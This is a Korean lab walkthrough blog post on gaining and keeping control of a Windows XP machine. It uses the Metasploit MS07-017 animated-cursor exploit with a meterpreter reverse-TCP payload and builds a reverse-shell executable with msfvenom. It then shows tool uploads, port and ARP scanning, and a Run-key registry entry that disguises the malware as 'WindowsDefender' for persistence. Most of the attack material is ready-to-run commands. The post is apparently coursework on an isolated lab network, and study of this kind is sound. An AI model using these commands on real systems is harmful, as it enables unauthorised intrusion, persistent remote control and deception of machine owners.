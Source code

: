 ```yaml
---
title: 네트워크보안 정보수집과 제어 지속
author:
  name: Cotes Chung
  link: https://github.com/cotes2020
date: 2022-05-10 20:00:00 +0800
categories: [Blogging, Network]
tags: [getting started]
pin: false
---
```


## Step1. 세션 획득

---

msfconsole을 이용하여 윈도우 xp의 세션을 획득한다.

저번 차시에 사용되었던 redirect.php를 이용하여 세션을 얻는 방법이다.

많은 부분은 생략을 하도록 한다.

<br>

> CentOS에서 진행한다.

CentOS에서 웹 서비스를 사용할 수 있도록 한다.

```console
centos# service httpd start
```

<br>

> Kali에서 진행한다.

애니커서 취약점이 있는 msfconsole 공격 스크립트를 작성한다.

```vim
#파일명 : ms07_017_meterpreter_reverse_tcp.rc

use exploit/windows/browser/ms07_017_ani_loadimage_chunksize
set SRVPORT 8080
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.57.10
exploit
```

```console
kali# msfconsole -r ms07_017_meterpreter_reverse_tcp.rc
```

<br>

msfvenom을 사용해 윈도우 xp의 세션을 얻을 수 있는 악성 프로그램(malware)을 만든다.

```console
kali# msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.57.10 LPORT=8081 -f exe > malware.exe
```

<br>

> 윈도우 xp에서 진행 한다.

사용자(xp)가 CentOS 서버에 접속하여 공격자에게 세션 정보가 넘어가는지 확인한다.

![1](https://user-images.githubusercontent.com/59737252/167641574-13e8d460-bbb4-472e-a2bd-71511783a3ea.png)

![2](https://user-images.githubusercontent.com/59737252/167641813-8df513f6-123d-4ce0-ad23-599b3bb5c744.png)

<br>

## Step2. 악성 파일 업로드

---

애니 커서 취약점을 통해 얻은 세션으로 악성 파일 및 정보수집 툴을 업로드 한다.

> 칼리에서 진행한다.

```console
#세션 설정
msf> sessions -l     #세션 목록 확인
msf> sessions -i 1   #세션 선택

#파일 업로드
meterpreter> upload /var/www/plink.exe c:\\windows\\temp\\plink.exe
meterpreter> upload /var/www/arping.exe c:\\windows\\temp\\arping.exe
meterpreter> upload /var/www/arping_auto.bat c:\\windows\\temp\\arping_auto.bat
meterpreter> upload /root/Desktop/malware.exe c:\\windows\\temp\\malware.exe
meterpreter> upload /root/Desktop/PortQry.exe c:\\windows\\temp\\PortQry.exe
```

![4](https://user-images.githubusercontent.com/59737252/167646800-6626f560-b631-4760-a222-946cbf2d6554.png)

![3](https://user-images.githubusercontent.com/59737252/167646792-f31d135c-4fd7-4438-ba61-c1408ec262ce.png)

<br>

## Step3. 정보 수집

Remote System Discovery 기술이 사용된 ARPING,

Network Service Scanning 기술이 사용된 PORTQRY를 사용하여 정보수집을 한다.

<br>

### PortQry를 이용한 정보 수집

> CentOS에서 진행한다.

PortQry를 이용하여 포트 스캐닝을 위해서 sshd와 httpd 서비스를 실행하여 준다.

```console
centos# service sshd start   # 22번 포트
centos# service httpd start  # 80번 포트
```

![5](https://user-images.githubusercontent.com/59737252/167650243-77d6aa77-4b98-422a-b607-7f95626b8ad9.png)

<br>

> kali에서 진행한다.

사용자(xp)에서 웹 서버 주소로 포트 스캐닝을 한다.

```console
meterpreter> shell    #쉘 획득
> cd c:\windows\temp
> PortQry -n 192.168.57.80 -o 21,22,25,445,139,80
```

<br>

포트 스캐닝 결과를 보면, 22번 포트와 80번 포트가 열린것을 볼 수 있다.

또한 마이크로소프트에서 지원하는 445번과 139번이 NOT LISTENING 인것으로 보아 윈도우 서버가 아님을 알 수 있다.

![6](https://user-images.githubusercontent.com/59737252/167652600-f9f41991-12e2-4fee-a73a-a2aa29435938.png)

<br>

---

### ARPING을 이용한 정보 수집

<br>

arping툴을 이용하여 스캐닝할 수 있도록 arping_auto.bat 파일을 사용한다.

코드를 보면 1~30까지 반복하면서, arping 실행 결과를 result.txt로 출력하는것을 알 수 있다.

```shell
#arping_auto.bat

@echo off
set /a n=0
:repeat
set /a n+=1
echo 192.168.56.%n%
arping.exe -n 1 192.168.56.%n% >> result.txt
if %n% lss 30 goto repeat
```

<br>

> kali에서 진행한다.

```console
meterpreter> shell    #쉘 획득
> cd c:\windows\temp
> arping_auto.bat

> type result.txte
```

<br>

결과를 보았을 때,

게이트웨이(192.168.56.2), xp1(192.168.56.10), xp2(192.168.56.20)가 응답한 것을볼 수 있다.

![9](https://user-images.githubusercontent.com/59737252/167656308-7860b47c-0d10-4b0b-ae82-4f2c9a3e1497.png)

![7](https://user-images.githubusercontent.com/59737252/167656705-ba3b0f1e-6bd6-4fe5-8d9f-23d943871187.png)

![8](https://user-images.githubusercontent.com/59737252/167656082-56309303-397a-4a31-8fce-987129d2753a.png)

<br>

<br>

## 제어 지속

---

<br>
악성 코드 제어지속을 위해 레지스트리에 접근한다.

레지스트리 경로는 "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" 에 접근을 하도록 하는데, 이는 부팅시 자동으로 실행해주는 목록이다.

공격자가 사용자의 쉘이 이미 확보된 상태에서 진행한다.

<br>

> kali에서 진행한다.

```console
meterpreter> shell

> reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /v "WindowsDefender" /t REG_SZ /d "C:\Windows\Temp\malware.exe" /f
```

![10](https://user-images.githubusercontent.com/59737252/167658579-1a875a54-49ee-4ad7-a7e0-1aa06b5d086f.png)

<br>

해당 명령어가 정상적으로 되었다면, 윈도우에서 레지스트리가 잘 저장되었는지 확인하도록 한다.
![11](https://user-images.githubusercontent.com/59737252/167658775-5c8b089a-503e-4fc3-a154-f2bfde9034b3.png)

<br>

칼리 리눅스에서 핸들러를 켜놓고, 사용자(xp)를 재부팅 시켜보면 부팅될 때마다 malware가 실행되어 세션이 넘어가는것을 볼 수 있다.

![12](https://user-images.githubusercontent.com/59737252/167660292-23e72814-9b39-416c-916a-b331716f70d7.png)
